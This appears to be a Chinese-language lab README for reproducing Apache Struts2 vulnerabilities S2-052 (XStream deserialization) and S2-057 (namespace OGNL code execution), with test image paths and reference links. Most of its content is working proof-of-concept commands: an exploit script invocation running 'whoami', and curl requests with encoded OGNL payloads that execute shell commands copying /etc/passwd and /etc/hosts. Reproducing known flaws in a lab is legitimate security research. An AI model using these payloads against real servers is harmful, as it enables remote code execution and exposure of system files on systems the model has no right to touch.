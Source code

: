 ## S2-052 xtream 反序列化漏洞

测试镜像

* src/struts/2.5.12/

Poc

```
python s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

## S2-057 struts namespace OGNL 代码执行漏洞

测试镜像

* src/struts/2.3.20

参考资料

* [St2-057 Poc Example](https://github.com/jas502n/St2-057)
* [【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

Poc

```
// Runtime.exec
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%40java.lang.Runtime%40getRuntime().exec(%27cp%20/etc/passwd%20/tmp%27))%7d/actionChain1.action'

// ProcessBuilder.start
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23cmd=%7B%27/bin/bash%27,%27-c%27,%27cp%20/etc/hosts%20/tmp%27%7D,%23p=new%20java.lang.ProcessBuilder(%23cmd),%23p.start())%7d/actionChain1.action'

ls -lah /tmp/passwd
```

